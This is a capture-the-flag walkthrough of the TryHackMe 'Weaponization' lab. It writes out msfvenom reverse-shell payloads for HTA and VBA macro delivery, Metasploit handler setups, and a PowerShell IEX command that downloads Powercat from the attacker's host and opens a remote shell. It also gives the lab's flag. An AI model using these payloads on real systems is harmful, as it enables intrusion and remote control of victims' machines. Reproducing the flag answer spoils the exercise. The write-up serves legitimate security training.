 ![Weaponization Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_Cover.png" alt="Weaponization Logo">
</p>

# Weaponization

This guide contains the answer and steps necessary to get to them for the [Weaponization](https://tryhackme.com/room/weaponization) room.

## Table of contents

- [Windows Scripting Host - WSH](#windows-scripting-host---wsh)
- [An HTML Application - HTA](#an-html-application---hta)
- [Visual Basic for Application - VBA](#visual-basic-for-application---vba)
- [PowerShell - PSH](#powershell---psh)
- [Delivery Techniques](#delivery-techniques)
- [Practice Arena ](#practice-arena)

### Windows Scripting Host - WSH

1. Try to replace the calc.exe binary to execute cmd.exe within the Windows machine.

   I tried the message box using cscript which seemed to work.
   
   ![Hello](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_WSH_Hello.png)

   When trying the open cmd.exe with the vbs file, I ran into an issue where it just wouldn't open a command prompt. So I had to modify the code slightly for it to work.
   
   ```cmd
   Set shell = WScript.CreateObject("Wscript.Shell")
   shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
   ```
   
   ![CMB VBS](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_WSH_CMD_VBS.png)
   
   It also worked when saving the vbs file as a text file and using the `/e` argument.
   
   ```cmd
   cscript /e:VBScript c:\Users\thm\Desktop\payload.txt
   ```
   
   ![CMD TXT](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_WSH_CMD_TXT.png)

   ><details><summary>Click for answer</summary>No Answer Needed</details>

### An HTML Application - HTA

1. Now, apply what we discussed to receive a reverse connection using the user simulation machine in the Practice Arena task.

   This task can also be done with the regulat Windows 10 machine. Saves me from terminating and started a new machine. First we open MetaSploit and the required module.
   
   ```cmd
   use exploit/windows/misc/hta_server
   ```
   
   Then we set all required options.
   
   ```cmd
   set LHOST 10.18.78.136
   set LPORT 1337
   set payload windows/meterpreter/reverse_tcp
   exploit
   ```
   
   ![Metasploit Module Run](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_HTA_Metasploit_Module_Run.png)
   
   As seen in the image above, we managed to get a reverse connection back.

   ><details><summary>Click for answer</summary>No Answer Needed</details>

### Visual Basic for Application - VBA

1. Now replicate and apply what we discussed to get a reverse shell!

   First I had to create a vba payload using msfvenom.
   
   ```cmd
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f vba 
   ```
   
   Now I could copy this macro into a Word document on the target machine.
   
   ![Macro](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_VBA_Macro.png)
   
   Save it as a word 97 document so the macros are enabled. Close Word.
   
   Instead of using `nc` I used Metasploit as a handler.
   
   ```cmd
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 10.18.78.136
   set LPORT 1337
   run
   ```
   
   Now we can open the newly created Word document with our payload inside.
   
   ![Metasploit Run](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_VBA_Metasploit_Run.png)
   
   ><details><summary>Click for answer</summary>No Answer Needed</details>

### PowerShell - PSH

1. Apply what you learned in this task. In the next task, we will discuss Command and Control frameworks! 

   First thing to do is to download the Powercat tool from Github.
   
   ```cmd
   git clone https://github.com/besimorhino/powercat.git
   ```
   
   ![Git Clone](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_PSH_Git_Clone.png)
   
   Next we set up a server in the Powercat folder and a listener on the specified port.
   
   ```cmd
   cd Weaponization
   python3 -m http.server 8080 
   
   sudo nc -nlvp 1337
   ```
   
   Then we can download and execute Powercat from our target machine using PowerShell.
   
   ```cmd
   powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.18.78.136:8080/powercat.ps1');powercat -c 10.18.78.136 -p 1337 -e cmd"
   ```
   
   ![Powercat Reverse](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_PSH_Powercat_Reverse.png)
   
   ><details><summary>Click for answer</summary>No Answer Needed</details>

### Delivery Techniques

1. Which method is used to distribute payloads to a victim at social events?

   This is mentioned in the text. Usually a physical device would be used as this can be handed over.

   ><details><summary>Click for answer</summary>USB Delivery</details>

### Practice Arena 

In this task we will use what we have learned and try to gain access to the target machine with one (or more) of the methods.

1. What is the flag? Hint: Check the user desktop folder for the flag! 

   For this task I decided to use the HTML Application method. First step is to create a payload using msfvenom.
   
   ```cmd
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f hta-psh -o letmein.hta
   ```
   
   ![Payload Creation](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_Practical_Payload_Creation.png)
   
   Then we need to setup a listener, which we can do with MetaSploit. Don't forget to set the required options.
   
   ```cmd
   use exploit/multi/handler
   
   set LHOST 10.18.78.136
   set LPORT 1337
   set payload windows/meterpreter/reverse_tcp
   ```
   
   ![Metasploit Handler](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_Practical_Metasploit_Handler.png)
   
   Lastly, we need to setup a server in the same folder as the payload.
   
   ```cmd
   python3 -m http.server 8080
   ```
   
   Now we can navigate to the web application and supply the url provided by the MetaSploit handler.
   
   ![Web Application](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_Practical_Web_Application.png)
   
   We can see we successfully captured the reverse connection in MetaSploit. Although maybe not necessary when using this method, I also wanted to migrate our process to another. For this we can use the following command in MetaSploit:
   
   ```cmd
   run post/windows/manage/migrate
   ```
   
   ![Migrate Check](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_Practical_Migrate_Check.png)
   
   Finally, we can look for the flag on the system.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/weaponization/Weaponization_Practical_Flag.png)

   ><details><summary>Click for answer</summary>THM{b4dbc2f16afdfe9579030a929b799719}</details>
